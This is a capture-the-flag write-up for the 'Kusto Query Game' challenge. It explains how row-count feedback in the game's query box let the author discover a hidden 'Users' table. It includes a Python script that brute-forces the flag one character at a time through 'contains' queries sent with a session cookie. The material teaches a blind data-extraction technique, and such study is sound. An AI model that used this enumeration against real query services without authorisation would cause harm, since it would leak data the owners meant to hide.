










# The Kusto Query Game

Not solved in time by Joa :(

Writeup by Joa :)

(we found the first pieces of the flag about 5 minutes before time was up)


## Challenge text
```
Let's play the Kusto Query Game!
```
> [kqlgame.ept.gg](kqlgame.ept.gg)

Visiting the page shows us the introduction page of the game:



## Game flow
When we start the game, we are presented with a query input box, and a target for how many rows our query should return.


Simply entering `StormEvents` returns all the rows in the dataset:

Since we guessed wrong, the game tells us how many entries we actually got, compared to how many we should have gotten. *This is a surprise tool that will help us later.*

We can try to use one of the example queries from the main page to return the correct number of rows:



But we are told that using "take" is cheating :(



However, the last one, `StormEvents | top <n> by DamageProperty`, *does* work fine :)



Doing this 5 times in a row gives you this suspiciously non-flag-looking success message:



"Things that seem too good to be true..." and all that.


## Flag walkthrough
To check whether the flag is contained within any cell in the StormEvents table, we can use the query `StormData | where * contains "EPT{"`. Running this gives us 0 results, which means we should try to look elsewhere

We can find out if there are other tables in the database by using `.show tables`:



Since we get the row count as an output even in the case where we've "guessed wrong", we can see that there are two tables in the database, StormEvents and one other.


### Table enumeration
The format of the `.show tables` output table is a known standard, as per [Microsoft's documentation](https://learn.microsoft.com/en-us/kusto/management/show-tables-command).

|Output parameter|Type|Description|
|---|---|---|
|TableName|string|The name of the table.|
|DatabaseName|string|The database that the table belongs to.|
|Folder|string|The table's folder.|
|DocString|string|A string documenting the table.|

This means that we can use a `where` clause to only select tables with specific `TableName`s, as well as use operators suchs as `contains` or `startswith` to look for only part of a table name. We can for example run a query like:
```
.show tables
| where TableName != "StormEvents"
| where TableName startswith "a"
```
Since this query returns 0 rows, we can conclude that the name of the other table does not start with the letter `a`. We can then try `b`, `c`, etc. until we reach `u`, which gives us 1 row returned. We can then try `ua`, `ub` and so on until we find that the tablename starts with/is `users`.

(This is possible to automate, see [enumerate_tables.py](./enumerate_tables.py))



Since "startswith" is case-insensitive ("startswith_cs" is the case-sensitive version), the query `users` will not return anything, but by guessing we find that `Users` in CamelCase does.

#### Improvement ideas
Instead of iterating through each letter of the alphabet for each character, it's possible to run the whole alphabet/charset through a query like:
```
.show tables
| where TableName != "StormEvents"
| where TableName contains_cs "a"
```
And then use the result of that operaton to make a smaller charset for the `startswith` query. This way, you're only checking characters that you know exist *somewhere* in the result. Likely overkill in this case though, as this script only takes about 60 seconds to complete (or about 30 if you ignore case).

### Flag enumeration
Running the following query
```
Users
| where * contains "EPT{"
```
Shows us that there are 21 rows that contain the string "EPT{" somewhere inside of any cell.

As a naïve approach, we can implement this with `contains`, and log every find that matches "EPT{" + some suffix. To ensure that we don't miss any search paths, we use a recursive implementation, so that even in the case where we find a valid next letter, we still check through all the other options at the current depth before returning.

We can also find that in addition to there being **21 rows that contain any cell that contains "EPT{"**, there are also **21 rows that contain any cell that *start swith* "EPT{"**. Technically, there could exist a situation in which the real flag only appears in the middle of a cell, but where another decoy cell in the same row just so happens to start with "EPT{". We can also find that there exists only one row **with the "}" character present**, as well as only one row where a cell **ends with "}"**, in which the same situation might be happening.

Respecting the possibility that there might exist decoy "flaglike"s in the same row as the actual flag, we can run this code:

```py
import requests

start_url = "https://kqlgame.ept.gg/start-game"
game_url = "https://kqlgame.ept.gg/game"

# taken from my browser's session token
cookie = {
    "session": "eyJsZXZlbCI6MSwic3RhcnRfdGltZSI6MTczMDc5NzgzNC40MTcwMjY4LCJ0YXJnZXRfcm93cyI6MzR9.ZynhCg.Ugw_G8KNPswmrna1fXIP52XtJ68"
}

s = requests.Session()

charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789, .'?!@$<>*:+=-\\/}"

def check_next_char(string):
    # refresh our token occasionally to make sure that we don't get timeout errors
    s.get(start_url, cookies=cookie)
    
    for nextchar in charset:
        data = {
            "query": f"""
            Users
            | where * contains "{string+nextchar}"
            """
        }
        response = s.post(game_url, cookies=cookie, data=data).text
        
        # first check to make sure that the query was valid/returned *something*
        # then check that it returned more than 0
        if "The row count for your query was" in response and \
        "The row count for your query was 0" not in response:
            
            print("Found next valid prefix:", string+nextchar)
            is_exact_match(string+nextchar)
            check_next_char(string+nextchar)

def is_exact_match(string):
    data = {
        "query": f"""
        Users
        | where * == "{string}"
        """
    }
    response = s.post(game_url, cookies=cookie, data=data).text
    if "The row count for your query was 0" not in response:
        print("Found valid string:", string)

if __name__ == "__main__":
    check_next_char("EPT{")

```
Which takes about 12 minutes to run, and gives the following output:



(output extends beyond this screenshot)

However, by working with the assumption that *the real flag also has a closing curly bracket*, we can reduce this to about 90 seconds:
```py
// ...
    # The format string's highlighting got messed up whenever i just put in the raw "}" character.
    # 7D is simply the hex value of "}"
    f"""
    Users
    | where * contains_cs "{string+nextchar}"
    | where * contains_cs "\x7D"
    """
// ...
```

In any case, `EPT{z2641a3a}` is the only result that also has a closing bracket, and is indeed the correct flag.

#### Improvement potential

This whole thing can absolutely be sped up using multiprocessing, perhaps by generating a list of "possible next strings" and chucking a bunch of `async_apply`s at it. We did not do this. Maybe next year :)
